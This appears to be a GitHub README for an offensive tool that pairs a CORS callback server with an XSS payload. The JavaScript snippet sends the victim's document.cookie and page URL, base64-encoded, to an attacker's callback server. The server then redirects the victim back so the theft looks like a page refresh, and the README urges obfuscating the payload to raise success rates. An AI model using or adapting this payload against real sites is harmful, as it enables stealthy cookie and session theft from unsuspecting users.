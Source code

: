 ## Description

This repo contains an example of a CORS callback server and an XSS payload that, once executed, will change the current window location of the victim to your callback server, which responds with a **301 Moved Permanently** redirection back to where the victim came from (Origin), although this time with a token in the URL anchor, telling your XSS payload to stay dormant.

If for whatever reason the victim did not reveal its origin, the victim will be redirected to your panic address of choice, in an attempt to keep the attack hidden.

When the attack is successful, the victim experienced what seemed like a page refresh at most.

## Usage

First of all make sure that your callback server is listening.

Then throw the following code in your XSS payload. Be sure to change the address to that of your callback server, and change the token at the very least. The more you obfuscate this code, the higher your success rate will be. 

Refine your payload as required, or it may get triggered unexpectedly. please do not open issues if it's not working for you.

```javascript
const token = "w3lRZ87e";
if (location.hash != token) self.location = "https://mycallbackserver.net/callback.php" + 
                	"?origin=" + encodeURIComponent( btoa(self.location.href) ) + 
                	"&data=" + encodeURIComponent( btoa(document.cookie) ) + 
                	"&token=" + encodeURIComponent( btoa(token) );
```
